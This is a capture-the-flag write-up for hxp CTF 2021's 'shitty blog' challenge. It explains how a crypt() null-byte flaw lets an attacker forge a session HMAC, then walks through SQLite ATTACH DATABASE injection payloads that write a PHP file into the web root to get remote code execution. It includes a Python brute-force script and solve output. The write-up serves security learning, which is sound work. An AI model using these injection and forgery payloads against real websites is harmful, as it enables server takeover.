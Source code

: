 shitty blog ?  
=====

Points: 250 (31 solves)

Writeup by: ath0 and qxxxb

Challenge Author: 0xbb

Files: `shitty blog ?-a6c0b8b672817005.tar.xz`

Overview  
=====

The main logic of the challenges resides in one file, `index.php`.

There is a per-session SQLite database that gets created at  
`'/var/www/html/data/' . md5($salt.'|'.$id.'|'.$mac);`. In the session cookie,  
there is a user id (`$id`) and a HMAC which will be verified:

```php  
   $session = explode('|', $_COOKIE['session']);  
   if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true),
$salt), $salt.$session[1])) {  
       exit();  
   }  
   $id = $session[0];  
   $mac = $session[1];  
```

If we can forge a valid HMAC, we can move forward with a totally controlled
`$id` (more on the forgery later).

qxxxb noticed some interesting bits in the nginx config:

``` nginx  
location / {  
       try_files $uri $uri/ =404;  
}  
```

We can visit `http://localhost:8888/data/<sandbox_url>/blog.sqlite3` and we'll
be  
able to read our sqlite database back. But this doesn't help us achive our  
ultimate goal: We need to execute `/readflag` (neither nginx nor php have the  
ability to read `flag.txt` directly), so we need RCE. The other thing to note  
is nginx is setup to send any file ending in `.php` through the php
interpreter:

```nginx  
location ~ \.php$ {  
       include snippets/fastcgi-php.conf;  
       fastcgi_pass unix:/run/php/php7.4-fpm.sock;  
}  
```

So if we can write a `.php` file somewhere in `/var/www/html/`, we can just  
visit that URL and it will get executed! But how can we create such a file?

Luckily, there's another vulnerability which is likely the first thing you'll
notice when scanning `index.php`:

```php  
function delete_entry($db, $entry_id, $user_id) {  
   $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");  
}  
```

SQL injection on `$user_id`! So if we can cram a SQL injection payload into  
`$user_id`, we can use any of the capabilities of SQLite.

Exploit  
=====

SQL injection to RCE  
----

Assuming we can control the user id (requires HMAC forgery, below), how will
we  
get code execution?

Some [cheat sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)
I found online shows you can create SQLite databases with arbitrary names:

```  
1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz
text); INSERT INTO lol.pwn (dataz) VALUES ('hax'); --  
```

And nginx is setup to send any file ending in .php through the php
interpreter:

```nginx  
location ~ \.php$ {  
       include snippets/fastcgi-php.conf;  
       fastcgi_pass unix:/run/php/php7.4-fpm.sock;  
}  
```

So our SQL injection payload just needs to create a file at
`/var/www/html/data/lol-abcdefg.php` containing `` anywhere within the file.

So the SQL injection payload we need (with quotes correctly encoded) is:

```  
'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE
lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES (''); --  
```

(the `--` at the end starts a comment)

Forging a HMAC  
=====

Here is the relevant code from the `index.php`:

```php  
# Generating an HMAC  
$mac = substr(crypt(hash_hmac('md5', $id, $secret, true), $salt), 20);

# Verifying an HMAC  
if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt),
$salt.$session[1])) {  
   exit();  
}  
```

The fourth `true` argument to `hash_hmac()` is for the parameter `binary`:  
> When set to true, outputs raw binary data. false outputs lowercase hexits.

However, the documentation for `crypt()` shows:  
> **Warning**: This function is not (yet) binary safe!

It turns out that `crypt()` considers its inputs as null-terminated strings.
As  
shown  
[here](https://www.reddit.com/r/PHP/comments/t0qzl/is_this_a_bug_shouldnt_crypt_be_binary_safe/),  
everything after the null byte is ignored:  
```php  
>>> assert(  
   crypt(b"\x00stuff", '$6$89bc41658a01fb6b$') ==  
   crypt(b"\x00ignored", '$6$89bc41658a01fb6b$')  
)  
=> true  
```

The first step is to find a `$mac` where  
`hash_hmac('md5', $id, $secret, true)` starts with a null byte.

The probability of this happening for a random `$id` is `1 / 256`. If it  
happens twice, we'll get two identical `$mac` values. Here's code to retrieve
the null MAC:

```python  
def get_null_mac():  
   mac_counter = set()  
   for i in tqdm(itertools.count()):  
       res = requests.get(URL_BASE)  
       id, mac = urllib.parse.unquote(res.cookies["session"]).split("|")  
       if mac in mac_counter:  
           return mac  
       mac_counter.add(mac)

   raise ValueError("Unreachable")  
```

Now that we have the null MAC, we can append junk at the end of our SQLi  
payload inside a comment and until its MAC matches our null MAC (`1 / 256`  
chance):

```python  
def attempt_sqli(junk: str, null_mac: str):  
   payload = (  
       "'test'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES (''); -- "  
       + junk  
   )  
   # ...  
```

Full solve script in `solve.py`.

```  
$ python3 solve.py  
[*] Looking for null MAC ...  
207it [01:15,  2.73it/s]  
[+] null_mac =
yC8z7vD9vdpSERKREHFfJ/PpyNg9yAXh00wZHnh8AlIehpWVmVxzrjphnbjrpiCr6Umu9D2l.CUSzAIlqQjLR/  
[*] Attempting SQLi ...  
post_id = 1  
hxp{dynamically_typed_statically_typed_php_c_I_hate_you_all_equally__at_least_its_not_node_lol_:(}

37it [00:15,  2.44it/s]  
```  

Original writeup (https://github.com/cscosu/ctf-
writeups/tree/master/2021/hxp_ctf/shitty-blog).